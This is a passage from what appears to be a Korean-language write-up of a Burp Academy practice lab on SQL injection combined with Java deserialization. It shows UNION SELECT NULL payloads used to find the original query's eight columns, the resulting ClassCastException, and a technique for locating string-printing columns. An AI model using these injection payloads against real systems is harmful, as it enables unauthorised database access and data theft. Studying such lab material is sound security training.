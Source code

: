 
칼럼개수가 8개일 때 다음과 같이 에러 메세지가 변화했다. 원 쿼리의 칼럼 개수는 8개인 것으로 보인다. 

```sql
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --
```

```
java.lang.ClassCastException: Cannot cast data.productcatalog.ProductTemplate to lab.actions.common.serializable.AccessTokenUser
```

![](/images/burp-academy-serial-8-10.png)


## 8. UNION 공격이 가능할지 확인-문자열을 출력가능한 칼럼 특정하기 
8개의 칼럼 중에서 문자열을 출력가능한 칼럼이 있는지 체크한다. 빼내고 싶은 정보는 대부분 문자열이기 때문이다. 

이를 위해 다음과 같은 테크닉을 사용한다. `'a'`의 위치를 바꿔가면서 테스트해나간다. 

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
